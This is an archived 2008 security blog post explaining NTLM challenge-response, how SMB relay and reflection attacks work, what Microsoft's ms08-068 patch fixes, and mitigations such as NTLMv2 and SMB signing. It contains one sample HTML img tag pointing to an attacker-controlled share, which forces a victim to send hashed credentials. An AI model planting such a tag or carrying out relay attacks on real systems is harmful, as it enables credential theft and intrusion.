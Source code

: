 ```yaml
---
id: 113
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:05:34-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=113'
permalink: '/?p=113'
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading [The Metasploit Blog](http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html).

Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email!

I have talked about how [Lanman and NTLM](http://www.skullsecurity.org/blog/?p=34) work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker access to the Lanman and NTLM hashes already, then the game has already been won (they can directly be used to log in).

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that, that type of attack has been fixed in NTLMv2 (since the client provides part of the randomness), but that's neither here nor there.

A SMB Relay attack is a type of man-in-the-middle attack where an attacker asks a user to authenticate to a machine controlled by the attacker, then connects to a server that the victim has access to. The attacker forwards the challenge from the server to the client, and the client answers based on that challenge, giving the attacker access. Here are the players:

- The **attacker** is the person trying to break into the box
- The **victim** is the person who has the credentials
- The **target** is the system the attacker wants access to, and that the victim has credentials for

And here's the scenario:

1. Attacker tricks the victim into connecting to him; this is easy, I'll explain how later
2. Attacker establishes connection to the target, receives the 8-byte challenge
3. Attacker sends the 8-byte challenge to victim
4. Victim responds to the attacker with the password hash
5. Attacker responds to the target's challenge with the victim's hash
6. Target grants access to attacker

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important.

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the target, and the victim needs to have access to it.

The first one is easy -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:

```
<img src="\AttackerSHAREfile.jpg">
```

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, it's the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by some sneaky vandalism, or by any number of ways.

Other ways to do this include DNS poisoning, ARP spoofing, \[url=http://www.skullsecurity.org/blog/?p=6\]NetBIOS poisoning\[/url\], and any number of other ways. Suffice to say, it's pretty easy to trick the victim.

The second trick is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:

- In a domain scenario, the user's domain account may have access to multiple machines, including the target
- In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work
- The target may be the *same physical machine as the victim*

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps:

1. Attacker tricks the victim into connecting to him
2. Attacker establishes connection back to the victim, receives the 8-byte challenge
3. Attacker sends the victim's 8-byte back
4. Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer
5. Attacker responds to the victim's challenge with the victim's hash
6. Victim grants access to attacker

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials.

And this particular attack is what ms08-068 patches!

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself.

## Mitigation

I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):

- Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness
- Enable (and require) message signing for both clients and servers -- this will prevent relay attacks
- Install ms08-068 -- this will prevent a specific subset of relay attacks, where its relayed back to itself

Hope that helps!

And, as usual, if you have any questions feel free to track me down.

Ron